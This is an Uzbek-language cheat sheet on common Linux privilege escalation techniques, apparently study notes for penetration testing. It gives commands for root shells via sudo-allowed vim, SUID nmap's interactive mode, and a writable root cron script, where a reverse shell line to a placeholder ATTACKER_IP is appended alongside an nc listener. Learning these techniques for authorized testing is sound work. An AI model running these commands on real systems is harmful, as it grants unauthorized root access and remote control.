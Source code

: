 **Linux tizimida eng ko‘p uchraydigan (real) privilege escalation misoli**
**1. Sudo misconfiguration (NOPASSWD yoki ALL yoritilgan huquqlar)**
Misol:
sudo -l
Va natijada shunga o‘xshash narsa chiqsa:
(ALL) NOPASSWD: /usr/bin/vim
Bu nimani anglatadi?

**Bu foydalanuvchi vim ni root huquqida hech qanday parolsiz ishga tushirishi mumkin!**
Juda ko‘p Linux serverlarda sysadminlar noto‘g‘ri sudoers sozlashadi, shuning uchun bu "common" huquq eskalatsiyasi hisoblanadi.

**Eskalatsiya:**
sudo vim -c '!sh'
Bu sizga root shell beradi! 💥

**2. SUID bit o‘rnatilgan binar fayllar**
Misol:

find / -perm -4000 -type f 2>/dev/null
Agar natijada shunga o‘xshash binar topilsa:
/usr/bin/nmap
nmap SUID bilan topilsa, va versiyasi eski bo‘lsa, interactive mode orqali root shell olasiz.

**Eskalatsiya:**
nmap --interactive
!sh

**3. Cronjob va Scriptlar**
Agar root foydalanuvchisi tomonidan cronjob orqali noto‘g‘ri yozilgan va foydalanuvchi yozish huquqiga ega bo‘lgan skriptlar ishlayotgan bo‘lsa.

Misol:
ls -la /etc/cron.d/
cat /etc/crontab
Agar cron da root foydalanuvchining ishga tushirayotgan skriptida siz yozish huquqiga ega bo‘lsangiz:
-rw-rw-r-- 1 user user  /opt/backup.sh

**Eskalatsiya:**
backup.sh ichiga siz root shell yoki bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1 qo‘shib, keyingi cron ishga tushganda root bo‘lib ketasiz.

-rw-rw-r-- 1 user user /opt/backup.sh
**📌 Bu degani /opt/backup.sh fayliga siz write huquqiga egasiz va root har 5 daqiqada uni ishga tushiradi!**
echo "/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" >> /opt/backup.sh
chmod +x /opt/backup.sh
nc -lvnp 4444

**📌 Eng ko‘p uchraydiganlar:**

**Sudo noto‘g‘ri konfiguratsiyasi (NOPASSWD)**

**SUID bit noto‘g‘ri qo‘yilgan binar**

**Root huquqidagi cronjob lar va foydalanuvchi yozishi mumkin bo‘lgan fayllar**

**Yadro zaifliklari**

**🎯 Tavsiyalar:**

Har doim sudo -l, find / -perm -4000, crontab, va uname -r tekshiring.

pspy64 ni ishga tushirib, background da cron yoki root skriptlarni tahlil qiling.

linPEAS yoki lse.sh avtomatik bularni tezda ko‘rib beradi.
